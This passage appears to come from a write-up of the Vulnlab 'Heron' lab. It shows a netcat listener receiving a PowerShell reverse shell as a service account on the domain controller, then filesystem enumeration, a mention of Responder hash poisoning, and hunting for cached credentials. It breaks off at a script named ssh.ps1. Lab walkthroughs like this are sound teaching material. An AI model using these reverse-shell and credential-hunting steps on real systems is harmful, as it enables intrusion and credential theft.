 Let's now browse to the path that we specified to execute the PowerShell payload, which is `http://accounting.heron.vl/execute.now`.

As you can see from the netcat payload, we'll receive a callback as `svc-web-accounting` on the DC.

```
└─$ nc -lvnp 9002      
listening on [any] 9002 ...
connect to [10.8.0.173] from (UNKNOWN) [10.10.220.53] 58887
PS C:\webaccounting> whoami
heron\svc-web-accounting
```

# Credential Hunting as svc-web-accounting

The interesting part that I found about this is that fact that there is a timeout on the web application that will essentially crash our current reverse shell after about a minute. This isn't very good practice in the real world, however it's essentially all that we can do at this with the only POC that I could think of. Again, very open to any different solutions that keep the reverse shell continuously up.

![](/images/vulnlab/heron-vl/h.png)

Luckily enough we can continue to get a reverse shell if we reopen our netcat listener and refresh the `execute.now` page. Had `svc-web-accounting` not been kerberoastable and their password WAS crackable, we could simply poison a request to a Responder endpoint and crack their NetNTLMv2 hash.

Luckily enough, we won't need this shell for very long. At this point, I enumerated the filesystem in between the intervals of the web application crashing. The `C:\` drive seems to be the parent directory of all of the SMB shares. 

```
Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          6/1/2024   8:10 AM                home
d-----         5/26/2024   2:31 AM                inetpub
d-----          6/6/2024   7:22 AM                it
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---          6/6/2024   7:22 AM                Program Files
d-----          6/1/2024   7:30 AM                Program Files (x86)
d-----         5/26/2024   4:51 AM                transfer
d-r---          6/1/2024   8:43 AM                Users
d-----         6/28/2024  12:38 PM                webaccounting
d-----          6/2/2024   8:26 AM                Windows
-a----          6/2/2024   3:45 AM             36 flag.txt
```

You can also see that the first flag is within the `C:\` drive, meaning we have completed a 1/3 of this chain.

To save some time, I spent a decent amount of attempts looking through all of the folders recursively to see if any DPAPI credentials or really just any credentials were cached in any files. After about an hour of credential hunting, I came across a file within `C:\Windows\scripts\ssh.ps1`.

